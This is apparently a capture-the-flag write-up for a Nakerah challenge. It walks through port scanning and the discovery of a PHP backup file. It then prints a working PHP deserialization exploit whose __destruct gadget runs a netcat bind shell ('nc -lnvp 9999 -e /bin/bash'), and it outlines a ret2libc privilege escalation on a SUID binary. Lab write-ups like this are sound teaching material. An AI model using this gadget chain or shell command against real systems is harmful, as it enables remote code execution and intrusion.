
<h1>Nakerah CTF </h1>

Peace, mercy and blessings of God 

today we are going to solve an interesting ctf from nakerah nakerha.com
our goal is to read root's flag file 
expolit will be devided into two missions first deserilization attack then ret2libc
so with all that being said; let's right jump in !!

first we have that static page 
[logo]: img/1.png


looking around source code nothing interested there 
[logo]: img/2.png


so let's nmap it
[logo]: img/3.png


as we see we have some other ports 
22 ssh we dont have any creds and it seems to be updated
25 smtp is filtered so we maybe come back to it later
80 http we already checked it
so lets visit port 8080 and see what behind the scene
[logo]: img/4.png


just another blank page (: i got bored so let's gobuster it :XD
 [logo]: img/5.png


 so we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png


 after downloading the file it's php code 
 [logo]: img/7.png


 so let's analyze it
 
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
here it creates an exCommand class and use a magic method __destruct then pass the value of command propert to system function
Destructor is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
here creating class Hello with some private properties and check function to verify if there's a cookie name  
public function printHello(){
            if($this->isSet){
                echo " " . $_COOKIE['name']."   ";
                echo "Hello " . $this->name . " ";
                echo "your role is " . $this->role . "\n";
                echo "   ";
            }else{
                echo "good";
            }
another function printHello fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
at last here it create an var, assign it's value to our deserialized_cookie passing it to check and printHello functions

so to stay focus here it's deserilization attack and we need to pass our command to exCommand funcion which has that magic method
the problem here is that first with exCommand class we used   a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem is that we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
so we will create exCommand object identify command property with a value (our command) put it inside  Hello calss and selialize all that staff together
[logo]: img/ex.png


code analysis:

class exCommand{
   public function __destruct(){
   system($this->command);
    }
}
here we just create the same exCommand class,

$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
create class hello with some properites (dummy one is interesring just continue ..!)
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of our exCommand object and finally serialize all that staff and here is our final serialized data
[logo]: img/8.png


and let's try connect
[logo]: img/9.png


and voila we get our shell fisrt missin completed successfully
in the root dir we got file 
[logo]: img/11.png


NX which stand for non-executable so here we know it's BOF expolit with ret2libc
after some enum we got that interesting suid file

[logo]: img/12.png

so after getting it in our local machine to understand it better 

[logo]: img/13.png


we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit
[logo]: img/14.png


so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png


to get things more easy let's check ASLR in the vectim machine

[logo]: img/16.png


and happy news that will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png


we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png


to get the exact address of /bin/sh in the run time we add its address to starting of libc address

[logo]: img/19.png


not our exploit is complete lets have a lock at it

[logo]: img/20.png


now let's give it a try

[logo]: img/21.png


and finally i want to say to Nakerah team “You're the best.”
 
